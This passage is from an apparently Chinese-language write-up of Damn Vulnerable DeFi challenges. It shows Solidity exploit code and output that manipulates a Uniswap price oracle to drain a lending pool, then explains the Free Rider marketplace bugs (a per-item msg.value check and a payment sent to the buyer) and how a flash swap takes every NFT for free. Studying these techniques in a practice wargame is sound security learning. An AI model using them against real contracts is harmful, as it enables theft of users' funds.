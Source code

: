 ```
        path[0] = address(token);
        path[1] = address(weth);
        console.log("before alculateDepositOfWETHRequired",lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE));
        uniswapV2Router.swapExactTokensForETH(token.balanceOf(player), 1 ether, path, player, block.timestamp);

        weth.deposit{value: player.balance}();
   
        weth.approve(address(lendingPool), type(uint256).max);
        uint256 poolBalance = token.balanceOf(address(lendingPool));
        uint256 depositOfWETHRequired = lendingPool.calculateDepositOfWETHRequired(poolBalance);
        console.log("after alculateDepositOfWETHRequired",lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE));
        lendingPool.borrow(POOL_INITIAL_TOKEN_BALANCE);
        token.transfer(recovery,POOL_INITIAL_TOKEN_BALANCE);

    }
  before alculateDepositOfWETHRequired 300000000000000000000000
  after alculateDepositOfWETHRequired 29496494833197321980

```

### Free Rider

[題目](https://www.damnvulnerabledefi.xyz/challenges/free-rider/): 一個全新的Damn Valuable NFTs市場已經發布！市場上有6個NFT被首次鑄造，現已開放出售，每個價格為15 ETH。有一個關鍵漏洞被報告，聲稱所有的代幣都可以被奪走。然而，開發者們不知道如何拯救這些代幣！他們提供了一個45 ETH的賞金，給任何願意將這些NFT取出並送回給他們的人。回收過程由一個專門的智能合約管理。你已經同意幫忙。儘管如此，你的餘額只有0.1 ETH。開發者們對你要求更多資金的消息卻毫無回應。如果你能獲得免費的ETH，至少瞬間獲得一些該多好。

過關條件:
- 需要確保所有的NFT從recoveryManager智能合約中提取出來，並且轉移到recoveryManagerOwner的地址
- 市場上應該不再有任何NFT待售，這表示市場中的offersCount()應該為0
- player 的餘額必須大於或等於賞金的數量

解題:
- 在買 NFT 的_buyOne function 中有一個錯誤檢查金額的地方. 只要msg.value大於priceToPay就可以通過. 
```
        if (msg.value < priceToPay) {
            revert InsufficientPayment();
        }
```
-  如果只是買一張NFT是沒問題, 但合約提供一次可以購買多張NFT. 透過 buyMany() loop執行 _buyOne, 這樣就會有一個邏輯漏洞, 只要有15ETH(1張NFT價格)就可以買多個NFT.
```
    function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
        for (uint256 i = 0; i < tokenIds.length; ++i) {
            unchecked {
                _buyOne(tokenIds[i]);
            }
        }
    }
```
- 第二個邏輯錯誤也是在 _buyOne裡面, 當購買的NFT後會把15ETH轉給賣家. 但從程式中顯轉移NFT擁有權, 所以會把15ETH轉給買家了.
```
        _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

        // pay seller using cached token
        payable(_token.ownerOf(tokenId)).sendValue(priceToPay);
```
- 搭配以上兩個bug, 可以免費透過 uniswapV2 flashswap 借出15ETH來購買多張NFT, 最後我們的成本僅需 0.3% flashswap fee. 題目預設給我們0.1ETH,所以很足夠.
- 最後一個步驟就是要買6張NFT, 都轉移給 FreeRiderRecoveryManager, 就可以拿到45ETH賞金了. [REF](https://medium.com/@JohnnyTime/damn-vulnerable-defi-v3-challenge-10-solution-free-rider-complete-walkthrough-7da8122691b3)
```
```